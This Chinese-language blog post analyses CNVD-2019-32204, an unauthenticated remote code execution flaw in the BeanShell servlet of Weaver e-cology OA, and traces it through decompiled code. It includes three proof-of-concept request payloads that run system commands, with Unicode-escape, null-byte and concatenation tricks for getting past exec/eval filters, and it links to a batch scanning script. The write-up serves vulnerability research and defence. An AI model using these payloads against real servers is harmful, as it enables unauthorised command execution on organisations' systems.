【漏洞分析】泛微OA E-cology 远程代码执行漏洞原理分析、过滤器绕过及批量检测工具
Author:Ja0k
最近曝光了很多漏洞，后续将对这些有代表性的漏洞进行分析审分析，今天有空先审计分析 泛微
OA RCE 漏洞
#事件背景
2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁，泛微e-cology OA系统的JAVA
Beanshell接口可被未授权访问，攻击者调用该Beanshell接口，可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行，漏洞等级严重。
#漏洞信息
| 漏洞名称 | 泛微OA E-cology 远程代码执行漏洞 |
|---|---|
| CVE编号 | - |
| CNVD编号 | CNVD-2019-32204 |
| 影响版本 | e-cology <=9.0 |
| 威胁等级 | 高危 |
| 公开时间 | 2019年9月17日 |
#漏洞分析
此次存在漏洞的是JAVA Beanshell接口，现在了解下Beanshell的基础。
1. BeanShell 知识（来源：https://github.com/beanshell/beanshell）
BeanShell是一个小型的，免费的，可嵌入的Java源解释器，具有使用Java编写的对象脚本语言功能。
BeanShell动态执行标准Java语法，并通过通用的脚本编写便利进行扩展，例如松散的类型，命令和方法闭包（如Perl和JavaScript）。
可以交互地使用BeanShell进行Java实验和调试，以及以新方式扩展应用程序。
Beanshell可以执行print、dir、eval、exec等命令

页面如下图

2. 泛微中Beanshell库jar代码静态分析
从泛微里提取存在漏洞的lib文件 bsh-2.0b4.jar 反编译查看servlet.BshServlet这个类

在类中发现doGet和doPost方法，用来接收并执行提交的数据。
doPost实际上就是对doGet的二次封装

在doGet方法中看到调用evalScript方法创建一个名为obj的对象，再看evalScript这个方法中的pramString参数，最终会被interpreter.eval处理。如下图

跟进 bsh.Interpreter类的eval方法

跳转到bsh.classpath/ClassManagerImpl.class类

该类调用了bsh.commands/exec.bsh脚本，该脚本可以执行命令

#漏洞复现
- 泛微OA BeanShell复现测试

把print(“hello!”)换成exec(“whoami”)，就可以测试能否执行系统命令了。
Poc1: bsh.script=\u0065\u0078\u0065\u0063(“whoami”);&bsh.servlet.output=raw

如果有全局过滤器过滤了exec或eval，会有报错，如下图：

可以采用unicode编码、字符串拼接等方式绕过,见下图：
Poc2: bsh.script=\u0065\u0078\u0065\u0063(“whoami”);&bsh.servlet.output=raw

Poc3：
bsh.script=eval%00(“ex”%2b”ec(bsh.httpServletRequest.getParameter(\“command\“))”);&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami

2. 批量验证脚本
该脚本拼接了常用的泛微OA web路径，结合了本文讲解绕过过滤器的3个Poc
该工具仅用于测试研究使用请勿他用。

脚本地址：
https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204
#免责声明
本文中提到的漏洞利用Poc和脚本仅供研究学习使用，请遵守《网络安全法》等相关法律法规。